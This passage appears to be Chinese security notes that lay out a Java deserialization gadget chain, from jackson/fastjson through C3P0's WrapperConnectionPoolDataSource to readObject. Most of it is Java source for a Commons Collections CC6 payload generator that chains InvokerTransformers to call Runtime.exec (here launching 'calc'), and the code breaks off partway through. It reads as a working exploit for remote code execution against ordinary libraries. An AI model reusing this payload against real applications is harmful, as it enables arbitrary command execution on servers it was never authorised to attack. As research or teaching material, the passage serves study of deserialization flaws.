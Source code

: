

WrapperContentionPoolDataSource是public类，有无参构造函数，jackson/fastjson会自动调无参构造函数实例化的。



利用链：

```java
    jackson/fastjson ->
    	WrapperContentionPoolDataSource.constructor
		WrapperContentionPoolDataSource.setUserOverridesAsSstring ->
  		C3P0ImplUtils.parseUserOverridesAsString ->
    	SerializableUtils.fromByteArray -> readObejct
```

### jackson+C3P0打CC6

```java
import com.alibaba.fastjson.JSON;
import com.fasterxml.jackson.databind.ObjectMapper;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;

//jackson 打C3P0 CC6字节码，by C3P0ImplUtils.parseUserOverridesAsString
//    jackson/fastjson ->
//    	WrapperContentionPoolDataSource.constructor
//    	WrapperContentionPoolDataSource.setUserOverridesAsSstring ->
//  		C3P0ImplUtils.parseUserOverridesAsString ->
//    	SerializableUtils.fromByteArray -> readObejct
public class jackson_C3P0ImplUtils_HEX_CC6 {
    public static class enableDefaultTyping_Test {
        public Object object;
    }
    public static String GenerateCC6() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
```